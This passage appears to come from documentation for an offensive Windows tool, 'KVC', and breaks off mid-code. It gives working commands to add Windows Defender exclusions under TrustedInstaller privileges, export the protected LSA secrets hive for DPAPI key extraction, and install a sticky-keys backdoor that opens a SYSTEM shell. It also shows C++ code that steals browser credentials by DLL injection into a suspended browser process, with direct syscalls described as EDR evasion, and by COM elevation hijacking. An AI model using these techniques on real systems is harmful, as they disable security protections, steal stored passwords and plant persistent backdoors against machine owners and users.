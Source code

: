 ```cpp
}
```

### TrustedInstaller Use Cases

#### Windows Defender Bypass

```bash
# Add comprehensive exclusions with TrustedInstaller privileges
kvc.exe trusted "powershell -Command Add-MpPreference -ExclusionPath C:\Research"
kvc.exe trusted "powershell -Command Add-MpPreference -ExclusionProcess kvc.exe"
kvc.exe trusted "powershell -Command Add-MpPreference -ExclusionExtension .dmp"
```

#### System Registry Access

```bash
# Export protected security hive for DPAPI key extraction
kvc.exe trusted "reg export HKLM\SECURITY\Policy\Secrets C:\extract\secrets.reg"
```

#### Persistent Backdoor Installation

```bash
# Install sticky keys backdoor (5x Shift = SYSTEM cmd)
kvc.exe shift

# Verify installation
kvc.exe trusted "reg query \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe\""
```

## 🌐 Browser Credential Extraction: The Modern Challenge

### Evolution of Browser Security

Modern browsers have implemented sophisticated credential protection:

1. **Encryption**: AES-256-GCM with unique keys
2. **Process Isolation**: Sandboxing and privilege separation  
3. **File Locking**: Exclusive database locks during runtime
4. **DPAPI Integration**: Windows-integrated key management

### KVC's Browser Exploitation Strategy

KVC overcomes these protections through **COM hijacking** and **process injection**:

```cpp
// BrowseCrypt.dll injection workflow
bool BrowserOrchestrator::ExtractCredentials(const std::wstring& browserName) {
    // 1. Create suspended target process
    PROCESS_INFORMATION pi;
    CreateProcessW(browserPath.c_str(), 
                   nullptr, nullptr, nullptr, 
                   FALSE, CREATE_SUSPENDED, 
                   nullptr, nullptr, &si, &pi);
    
    // 2. Inject BrowseCrypt.dll using direct syscalls (EDR evasion)
    InjectDLL(pi.hProcess, browseCryptDLL);
    
    // 3. Resume process with injected payload
    ResumeThread(pi.hThread);
    
    // 4. Payload performs COM elevation hijacking
    // Creates browser's own elevation service instance
    // Requests master key decryption from legitimate browser component
```